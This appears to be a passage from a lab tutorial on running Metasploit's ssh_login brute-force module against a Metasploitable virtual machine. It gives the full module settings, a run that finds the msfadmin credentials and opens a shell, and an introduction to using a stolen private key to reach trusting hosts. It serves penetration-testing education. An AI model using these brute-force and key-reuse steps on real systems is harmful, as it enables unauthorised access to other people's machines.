 Set this to run on the Metasploitable virtual box target:
```
msf auxiliary(ssh_login) > set RHOSTS 10.0.0.27
RHOSTS => 10.0.0.27
msf auxiliary(ssh_login) > set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
USERPASS_FILE => /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
msf auxiliary(ssh_login) > set VERBOSE false
VERBOSE => false
```

### Running the Attack

Now run the attack:

```
msf auxiliary(ssh_login) > run

[*] 10.0.0.27:22 - SSH - Starting buteforce
[*] Command shell session 1 opened (?? -> ??) at 2016-03-26 17:25:18 -0600
[+] 10.0.0.27:22 - SSH - Success: 'msfadmin':'msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Wed Apr 10 12:02:00 UTC 2014 i686 GNU/Linux '
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) >
```

### Houston, We Have A Shell

At this point, we can create a session with the machine that we compromised. Logged in as user msfadmin:

```
msf auxiliary(ssh_login) > sessions -i 1
[*] Starting interaction with 1...

id
uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin)
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Wed Apr 10 12:02:00 UTC 2014 i686 GNU/Linux
```

## Private Key ssh_login_pubkey


If you manage to get your hands on the victim's private key, the <code>auxiliary/scanner/ssh/ssh_login_pubkey</code> module is for you!

This module uses the private key to do two things:
* Get access to the victim machine
* Get access to any machines that trust the victim's private key (must be listed in the SSH files of the victim machine)
